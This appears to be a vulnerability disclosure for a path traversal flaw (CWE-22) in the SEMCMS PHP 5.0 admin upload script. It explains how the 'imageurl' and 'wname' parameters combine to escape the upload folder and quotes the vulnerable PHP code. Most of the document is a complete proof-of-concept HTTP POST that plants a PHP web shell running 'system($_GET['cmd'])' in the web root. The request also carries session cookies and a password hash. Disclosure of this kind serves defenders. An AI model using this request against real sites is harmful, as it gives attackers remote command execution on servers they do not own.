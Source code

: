 Path Traversal Vulnerability (CWE-22)
1. downland_url:https://www.sem-cms.com/TradeCmsdown/php/semcms_php_5.0.zip

2. Path Concatenation**
   The value of `$Imageurl` parameter `../Images/default/` concatenated with the value of `wname` parameter `../../shell`, results in the final storage path:
   `../Images/default/../../shell.jpg` → Equivalent to `../../shell.jpg`.
3. **Directory Traversal Effect**
   Assuming the website root directory is `/var/www/html/`, the final path of the uploaded file would be:
   `/var/www/html/1cj5Mn_Admin/../Images/default/../../shell.jpg` → `/var/www/html/shell.jpg`.

Source Code:

```
// Unfiltered path concatenation 
$Imageurl = $_POST["imageurl"]; // User-controllable 
$newname = test_input($_POST["wname"]) . "." . $ext; // User-controllable 
move_uploaded_file($tmp_name, $Imageurl . $newname);
```

**Cause of Vulnerability:**

- Lack of path normalization for `imageurl` and `wname`.
- No restriction on directory traversal characters (`../`) in user input.

```
POST /1cj5Mn_Admin/SEMCMS_Upfile.php HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Length: 813
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/1cj5Mn_Admin/SEMCMS_Upload.php?Imageurl=../Images/default/&filed=down_file&filedname=form
Cookie: csrftoken=DC1ie5F1GBasnO3BOxBk7lQ26Ee82lQM; _ga_R1FN4KJKJH=GS1.1.1731064454.3.1.1731065715.0.0.0; _ga=GA1.1.1573617850.1730626906; 4411def9d576984c8d78253236b2a62f__typecho_uid=1; 4411def9d576984c8d78253236b2a62f__typecho_authCode=%24T%24B0Y0sei2u2a444450e82362ddf26030b5474ad3c6; PHPSESSID=va4k07vvgftbnhaomq31s87np1; csrf_cookie_name=d9764bb0c2711f0ce2444be389abeb68; xunruicms_527064877b6d641aa8c19449a87beacc=tmuo9h6ga29i2pel1evd7qh8fs9cpbvg; 527064877b6d641aa8c19449a87beacc_member_uid=1; 527064877b6d641aa8c19449a87beacc_member_cookie=2da9437e47038d33a019eac9432349d7; __tins__4329483=%7B%22sid%22%3A%201739256022241%2C%20%22vd%22%3A%202%2C%20%22expires%22%3A%201739257829169%7D; __51cke__=; __51laig__=2; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="wname"

../../shell
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="file"; filename="1.jpg" 

GIF89a;
<?php system($_GET['cmd']); ?>
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="imageurl"

../Images/default/
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filed"

down_file
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filedname"

form
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="submit"

Submit
------geckoformboundary7885279eed7384fc280d6248a79275ff--

```
![image](https://github.com/user-attachments/assets/3450a85e-0dd7-4998-b4f3-5b802ae0be32)


![image](https://github.com/user-attachments/assets/5ea6ed85-8ac1-49f7-b087-e5da6d21cef6)
